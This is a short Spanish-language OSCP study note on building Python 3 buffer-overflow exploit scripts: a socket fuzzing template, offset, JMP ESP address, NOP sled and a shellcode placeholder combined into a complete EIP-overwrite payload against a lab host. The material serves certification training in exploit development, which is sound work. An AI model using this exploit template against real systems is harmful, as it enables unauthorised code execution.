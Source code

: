 Durante el proceso de explotación BOF en OSCP, `python3` se usa para construir scripts que envían payloads personalizados a binarios vulnerables. Estos scripts permiten automatizar pruebas de crash, control de EIP, envío de shellcode y verificación final.

---

## Estructura básica del script

```python
#!/usr/bin/env python3
import socket

ip = "192.168.X.X"
port = 9999

payload = b"A" * 200

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(payload)
s.close()
```

---

## Variables típicas

```python
offset = 200
jmp_esp = b"\xaf\x11\x50\x62"  # dirección JMP ESP en little endian
nop_sled = b"\x90" * 16
shellcode = b""  # tu payload generado con msfvenom

payload = b"A" * offset + jmp_esp + nop_sled + shellcode
```

---

## Ejemplo completo (control de EIP y shellcode)

```python
import socket

ip = "192.168.1.100"
port = 9999

offset = 524
jmp_esp = b"\xf3\x12\x17\x31"  # dirección JMP ESP
nop_sled = b"\x90" * 16
shellcode = b"..."  # tu shellcode

payload = b"A" * offset + jmp_esp + nop_sled + shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(payload)
s.close()
```

---

## Consideraciones OSCP

- Usa `b""` para definir strings en binario (Python 3 requirement)
- Añade control de errores con `try/except` si es necesario
- Prueba siempre primero sin shellcode para confirmar control de EIP

---
